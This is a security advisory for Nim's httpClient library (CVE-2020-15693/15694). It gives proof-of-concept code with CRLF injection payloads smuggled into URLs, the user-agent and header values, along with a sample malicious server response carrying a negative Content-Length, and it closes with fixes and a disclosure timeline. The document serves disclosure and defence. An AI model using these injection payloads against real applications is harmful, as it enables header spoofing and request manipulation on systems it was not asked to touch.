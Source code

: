 ```yaml
---
title: "Nim - stdlib Httpclient - Header Crlf Injection & Server Response Validation"
date: 2020-07-30T18:41:52+01:00

cve: ["CVE-2020-15693", "CVE-2020-15694"]
vendor: nim-lang
vendorUrl: https://nim-lang.org/
authors: tintinweb
affectedVersions: [ "<= 1.2.6" ]
vulnClass: CWE-93
---
```


# Vulnerability Note

## Summary 

The following vulnerability note discusses two classes of vulnerabilities found in the nim-lang `httpClient` standard library:

* a `CR-LF` injection in various arguments
* lack of response value validation when parsing server responses


also see: https://consensys.net/diligence/vulnerabilities/nim-httpclient-header-crlf-injection/

## Details

### Description

The nim standard library `httpClient` is vulnerable to a `CR-LF` injection in the target url. This issue shares similarities with [CVE-2019-9740](https://nvd.nist.gov/vuln/detail/CVE-2019-9740) and [CVE-2019-9947](https://nvd.nist.gov/vuln/detail/CVE-2019-9947) reported for the Python language with the difference that more injection vectors exist. An injection is possible if the attacker controls any part of the url provided to `httpClient.[get|post|...]`, the user-agent, or custom http header names or values. 


Additionally, the library fails to properly validate the server response. For example, `httpClient.get().contentLength()` does not raise any error if a malicious server provides a negative `Content-Length`.


It should be noted that there seems to be a general lack of input validation (requests and response) and we expect more vectors to exist (e.g. see `generateHeaders`).


### Proof of Concept

Note: `nim c -r -d:ssl  client_inject.nim`

1) header injection in any url part

a) query

```nim
import httpClient
var client = newHttpClient()
var response = client.get("https://localhost:4433?a=1 HTTP/1.1\r\nX-injected: header\r\nTEST: 123")  
echo response.contentLength()
echo response.body()
```

Serialized request: see `X-injected`

```http
GET /?a=1 HTTP/1.1
X-injected: header
TEST: 123 HTTP/1.1
Host: localhost:4433
Connection: Keep-Alive
content-length: 0
user-agent: Nim httpclient/1.2.4

```

b) in the path

```nim
import httpClient
var client = newHttpClient()
var response = client.get("https://localhost:4433/a/1 HTTP/1.1\r\nX-injected: header\r\nTEST: 123")
echo response.contentLength()
echo response.body()
```

Serialized request: see `X-injected`

```http
GET /a/1 HTTP/1.1
X-injected: header
TEST: 123 HTTP/1.1
Host: localhost:4433
Connection: Keep-Alive
content-length: 0
user-agent: Nim httpclient/1.2.4


```

2) header injection in user-agent, http headers

```nim
import httpClient
var client = newHttpClient("MyUserAgent\r\nX-Injected: myheader")
client.headers = newHttpHeaders({ "Content-Type": "applicat\r\nion/json" })
var response = client.get("https://localhost:4433?a=1 HTTP/1.1\r\nX-injected: header\r\nTEST: 123")
echo response.contentLength()
echo response.body()
```

Serialized request: see `X-injected`, `TEST: 123`

```http
GET /?a=1 HTTP/1.1
X-injected: header
TEST: 123 HTTP/1.1
Host: localhost:4433
Connection: Keep-Alive
content-length: 0
content-type: applicat
ion/json
user-agent: MyUserAgent
X-Injected: myheader


```

3) Integers are parsed as signed ints instead of natural numbers

The `httpClient` silently accepts invalid return parameters. For example, the content-length header is initially stored as a string without being verified to be in a proper range. When accessing it, it is being parsed as a signed integer and therefore allows to return negative numbers.

```nim
proc contentLength*(response: Response | AsyncResponse): int =
  ## Retrieves the specified response's content length.
  ##
  ## This is effectively the value of the "Content-Length" header.
  ##
  ## A ``ValueError`` exception will be raised if the value is not an integer.
  var contentLengthHeader = response.headers.getOrDefault("Content-Length")
  return contentLengthHeader.parseInt()
```

Request:
```http
GET /?a=1 HTTP/1.1
X-injected: header
TEST: 123 HTTP/1.1
Host: localhost:4433
Connection: Keep-Alive
content-length: 0
user-agent: Nim httpclient/1.2.4

```

Malicious server response: `Content-Length: -23`
```http
HTTP/1.1 200 OK
Date: Sun, 10 Oct 2010 23:26:07 GMT
Server: Apache/2.2.8 (Ubuntu) mod_ssl/2.2.8 OpenSSL/0.9.8g
Last-Modified: Sun, 26 Sep 2010 22:04:35 GMT
ETag: "45b6-834-49130cc1182c0"
Accept-Ranges: bytes
Content-Length: -23
Connection: close
Content-Type: text/html

Hello world!

```

Accessing the `Content-Length` yields the negative number -23.

```nim
import httpClient
var client = newHttpClient()
var response = client.get("http://localhost:4433/a/1 HTTP/1.1\r\nX-i\x00\x01YOnjected: header\r\nTEST: 123")
echo response.contentLength()
echo response.body()
```

output:

```
⇒  nim c -r -d:ssl  client_inject.nim
...
Hint:  [Link]
Hint: 112071 LOC; 1.103 sec; 112.691MiB peakmem; Debug build; proj: /Users/tintin/workspace/nim/test/issues/httpclient/inject/client_inject.nim; out: /Users/tintin/workspace/nim/test/issues/httpclient/inject/client_inject [SuccessX]
Hint: /Users/tintin/workspace/nim/test/issues/httpclient/inject/client_inject  [Exec]
-23
```

This might pose a risk to applications that are not checking whether response values are within sane bounds.




### Proposed Fix

- properly validate all parameters used in the module. Do not allow any context sensitive characters of the underlying protocol (e.g. `CR-LF`, `:` in header keys, ...)
- validate the server response. Use `parseNatural` instead of `parseInt` to parse positive natural numbers.

## Vendor Response

Vendor response: fixed in [v1.2.6](https://nim-lang.org/blog/2020/07/30/versions-126-and-108-released.html)

### Timeline

```
JUL/09/2020 - contact nim developers @telegram; provided details, PoC
JUL/30/2020 - fixed in new release
```

## References

* [1] https://nim-lang.org/
* [2] https://nim-lang.org/install.html
* [3] https://en.wikipedia.org/wiki/Nim_(programming_language)
* [4] https://nim-lang.org/blog/2020/07/30/versions-126-and-108-released.html
